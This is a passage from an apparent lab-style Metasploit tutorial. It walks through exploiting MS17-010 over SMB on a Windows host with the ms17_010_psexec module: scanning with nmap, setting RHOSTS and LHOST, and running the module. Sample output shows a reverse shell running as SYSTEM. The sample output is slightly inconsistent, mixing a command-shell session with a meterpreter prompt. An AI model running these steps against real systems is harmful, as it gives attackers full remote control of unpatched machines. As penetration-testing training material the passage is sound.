 ### 3. Configure Required Options
```bash
msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 10.10.10.40
msf6 exploit(windows/smb/ms17_010_psexec) > set LHOST 10.10.14.15
```

### 4. Global Settings (persistent across modules)
```bash
msf6 exploit(windows/smb/ms17_010_psexec) > setg RHOSTS 10.10.10.40
msf6 exploit(windows/smb/ms17_010_psexec) > setg LHOST 10.10.14.15
```

### 5. Execute
```bash
msf6 exploit(windows/smb/ms17_010_psexec) > run
# or
msf6 exploit(windows/smb/ms17_010_psexec) > exploit
```

## Quick Example: EternalRomance

### Target Discovery
```bash
nmap -sV 10.10.10.40
# Found: 445/tcp open microsoft-ds Microsoft Windows 7-10
```

### Exploitation Workflow
```bash
# 1. Search for exploit
msf6 > search ms17_010

# 2. Select module
msf6 > use 0

# 3. Configure
msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 10.10.10.40
msf6 exploit(windows/smb/ms17_010_psexec) > set LHOST 10.10.14.15

# 4. Execute
msf6 exploit(windows/smb/ms17_010_psexec) > run
```

### Expected Output
```
[*] Started reverse TCP handler on 10.10.14.15:4444 
[+] 10.10.10.40:445 - Host is likely VULNERABLE to MS17-010!
[*] 10.10.10.40:445 - Connecting to target for exploitation.
[+] 10.10.10.40:445 - Connection established for exploitation.
[*] Command shell session 1 opened
meterpreter > shell
C:\Windows\system32> whoami
nt authority\system
```
